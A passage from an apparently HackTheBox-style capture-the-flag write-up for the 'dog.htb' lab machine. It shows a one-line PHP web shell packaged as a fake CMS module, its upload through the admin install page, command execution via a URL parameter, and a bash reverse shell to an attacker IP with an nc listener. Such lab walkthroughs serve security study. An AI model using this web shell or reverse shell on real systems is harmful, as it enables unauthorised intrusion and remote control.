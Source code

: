 File `shell.php`:

```php
<?php system($_GET['cmd']); ?>
```

File `shell.info`:

```ini
name = Shell
description = Evil module
type = module
core = 1.x
```

Creating the archive:

```bash
tar -czvf shell.tar.gz shell
```

### c) Upload and activation

The installation endpoint is found via alias:

```
http://dog.htb/?q=/admin/modules/install
```

Upload `shell.tar.gz` → success ✅

Execution:

```
http://dog.htb/modules/shell/shell.php?cmd=id
```


## 🐚 Phase 6 — Reverse Shell

Creating a reverse connection:

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.8/1337 0>&1"
```

On the attacker machine:

```bash
nc -lvnp 1337
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Connection received: <code>uid=33(www-data) gid=33(www-data)</code>
    </p>
</div>


## 🔁 Phase 7 — Lateral Movement (johncusack)
